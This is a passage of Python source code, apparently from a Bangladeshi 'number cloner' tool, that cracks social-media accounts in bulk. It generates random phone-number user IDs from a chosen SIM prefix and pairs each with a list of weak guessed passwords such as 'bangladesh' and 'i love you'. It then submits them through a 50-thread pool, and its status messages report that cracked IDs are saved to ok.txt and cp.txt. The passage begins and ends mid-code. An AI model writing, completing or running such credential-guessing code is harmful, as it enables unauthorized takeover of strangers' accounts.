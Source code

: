 			yaari.submit(a,uid,pwx,tl)

	print(50*'_')

	print(' [💉] 𝐂𝐫𝐚𝐜𝐤 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐜𝐨𝐦𝐩𝐥𝐞𝐭𝐞𝐝')

	print(' [💉] 𝐈𝐝𝐬 𝐬𝐚𝐯𝐞𝐝 𝐢𝐧 𝐨𝐤.𝐭𝐱𝐭,𝐜𝐩.𝐭𝐱𝐭')

	print(50*'_')

	exit()

def virus2():

	user=[]

	os.system('clear')

	print(logo)

	print(" 𝐒𝐢𝐦 𝐜𝐨𝐝𝐞 𝐄𝐱𝐚𝐦𝐩𝐥𝐞 : 𝟎𝟏𝟔, 𝟎𝟏𝟕, 𝟎𝟏𝟖, 𝟎𝟏𝟗")

	kode = input(' [★] 𝐄𝐧𝐭𝐞𝐫 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞: ')

	doamin = ' 𝐁𝐃 𝐍𝐮𝐦𝐛𝐞𝐫 𝐜𝐥𝐨𝐧𝐞𝐫 '

	limit = int(input('[?] 𝐇𝐨𝐰 𝐦𝐚𝐧𝐲 𝐧𝐮𝐦𝐛𝐞𝐫𝐬 𝐝𝐨 𝐲𝐨𝐮 𝐰𝐚𝐧𝐭 𝐭𝐨 𝐚𝐝𝐝 : '))

	for nmbr in range(limit):

		koda = ''.join(random.choice(string.digits) for _ in range(2))

		kodb = ''.join(random.choice(string.digits) for _ in range(2))

		nmp = ''.join(random.choice(string.digits) for _ in range(4))

		user.append(nmp)

	with ThreadPool(max_workers=50) as yaari:

		os.system('clear')

		print(logo)

		tl = str(len(user))

		print(' \033[97;1m[🚀]  𝐓𝐨𝐭𝐚𝐥 𝐢𝐝𝐬  :\033[1;92m '+tl)

		print('\033[97;1m [🚀]  𝐔𝐬𝐚𝐫𝐚𝐠𝐞𝐧𝐭𝐬 : '+str(len(ugen)))

		print(f'\033[97;1m [🚀]\033[1;97m  𝐭𝐚𝐫𝐠𝐞𝐭 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞 :\033[1;92m {kode} ')

		#print(f"\033[1;97m [🚀]  𝐂𝐡𝐨𝐢𝐜𝐞 :\033[1;92m {doamin}")

		print(' \033[1;97m[🚀]  𝐓𝐡𝐞 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐬𝐭𝐚𝐫𝐭𝐞𝐝')

		print(' [🚀]  𝐔𝐬𝐞 𝐇𝐞𝐥𝐢𝐜𝐨𝐩𝐭𝐞𝐫 𝐦𝐨𝐝𝐞 𝐢𝐟 𝐨𝐤 𝐢𝐝𝐬 😑 ')

		print(50*'_')

		for guru in user:

			uid = kode+koda+kodb+guru

			pwx = [koda+kodb+guru,kodb+guru,kode+koda+kodb,kode+kode,kode+'123',kode+'1234','bangladesh','i love you','maliha akhter']
